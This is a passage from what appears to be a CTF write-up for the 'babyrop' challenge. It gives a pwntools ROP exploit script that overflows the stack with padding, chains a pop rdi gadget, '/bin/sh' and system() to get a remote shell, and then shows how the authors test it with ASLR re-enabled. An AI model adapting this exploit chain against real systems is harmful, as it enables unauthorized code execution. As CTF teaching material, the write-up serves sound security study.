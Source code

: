```python
  host = 'dicec.tf'
  port = '31924'
  p = remote(host, port)

# Where we found pop rdi ret gadget in binary
pop_rdi = 0x004011d3

# Set the base address for libc
libc.address = 0x00007ffff7dc3000

# Set the location of system in libc
system_func = libc.symbols['system']

# Find our /bin/sh in libc
bin_sh = next(libc.search(b'/bin/sh'))

# Align to 16 bytes with a little padding
align_pad = 0x0040101a

# Build our rop chain
rop_chain = ROP(rop_bin)
rop_chain.raw(b'C'*72)
rop_chain.raw(p64(pop_rdi))
rop_chain.raw(p64(bin_sh))
rop_chain.raw(p64(align_pad))
rop_chain.raw(p64(system_func))

# Deliver the rop chain
p.sendline(rop_chain.chain())
p.interactive()

```
> Note: There were a couple of issues with alignment when we wrote this. The [pwntools](pwntools.md) complained when calling `chain()` if we didn't use the byte-string and `p64()` functions when setting in the `raw()` methods.

> Note also: The payload failed because the stack has to be aligned to a 16-bit boundary on Ubuntu, so we needed to add a garbage instruction. To do this we used *ROPgadget* to find a  `ret` instruction on its own and added that address. This needs to come after the */bin/sh* string, but before the `system()` address.

The above code worked locally to give us a shell, but failed on the server. We need to see if the issue is ASLR, so let's turn it back on and rewrite the code to fit.

## Testing with ASLR turned on
We turned the ASLR back on with:
```
$ cat old_rvs.txt | sudo tee /proc/sys/kernel/randomize_va_space
2
```
Now we can see, each time we call `ldd` on the binary, the location of the `libc` library changes:
```
$ ldd babyrop
    linux-vdso.so.1 (0x00007fffd5993000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f382c3e0000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f382c5f3000)
$ ldd babyrop
    linux-vdso.so.1 (0x00007fffe893b000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5df3f80000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f5df4193000)
$ ldd babyrop
    linux-vdso.so.1 (0x00007fffe89f5000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc7174c0000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fc7176d9000)
```